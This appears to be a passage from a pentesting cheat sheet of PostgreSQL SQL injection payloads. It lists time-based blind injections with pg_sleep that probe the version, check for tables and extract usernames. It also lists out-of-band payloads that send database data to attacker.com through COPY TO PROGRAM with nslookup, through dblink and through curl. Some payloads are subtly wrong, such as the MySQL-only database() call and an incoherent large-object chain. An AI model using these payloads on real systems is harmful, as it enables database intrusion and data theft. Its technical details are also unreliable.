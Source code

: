     ```c
    ' OR (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END) -- -
    ```
*   **Checking PostgreSQL Version:** Causes a 5-second delay if the PostgreSQL version starts with '9'.

    ```c
    ' OR (SELECT CASE WHEN (SUBSTRING(version(), 1, 1) = '9') THEN pg_sleep(5) ELSE pg_sleep(0) END) -- -
    ```
*   **Checking Existence of a Table:** Causes a 5-second delay if the `users` table exists in the `public` schema.

    ```c
    ' OR (SELECT CASE WHEN (EXISTS (SELECT 1 FROM pg_tables WHERE schemaname = 'public' AND tablename = 'users')) THEN pg_sleep(5) ELSE pg_sleep(0) END) -- -
    ```
*   **Extracting Data from a Column:** Causes a 5-second delay if the first character of the first username in the `users` table is 'a'.

    ```c
    ' OR (SELECT CASE WHEN (SUBSTRING(username, 1, 1) = 'a') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users LIMIT 1) -- -
    ```

**Out-of-Band SQLi**

*   **DNS Exfiltration Using COPY:** Uses the `COPY` command to send the database version to an attacker-controlled DNS server.

    ```c
    ' COPY (SELECT version()) TO PROGRAM 'nslookup $(database()).attacker.com' -- -
    ```
*   **HTTP Exfiltration Using PL/pgSQL:** Uses the `dblink` extension to send the current PostgreSQL user to an attacker-controlled server.

    ```c
    ' DO $$ BEGIN PERFORM dblink_connect('host=attacker.com user=attacker password=pass');  PERFORM dblink_exec('INSERT INTO exfiltrated_data(data) VALUES (''' || current_user || ''')');  END $$; -- -
    ```
*   **Exfiltration Using LO\_EXPORT:** Exports the current user to a file and sends it to an attacker-controlled server via an HTTP POST request.

    ```c
    ' SELECT lo_export(lo_creat(-1), '/tmp/' || current_user || '.txt');  COPY (SELECT lo_import('/tmp/' || current_user || '.txt')) TO PROGRAM 'curl -X POST --data-binary @/tmp/' || current_user || '.txt http://attacker.com/'; -- -
    ```

### Tools

#### \[\[PSQL]]

*   **Connecting to PostgreSQL:** Connects to a PostgreSQL database using the specified host, username, and database name.
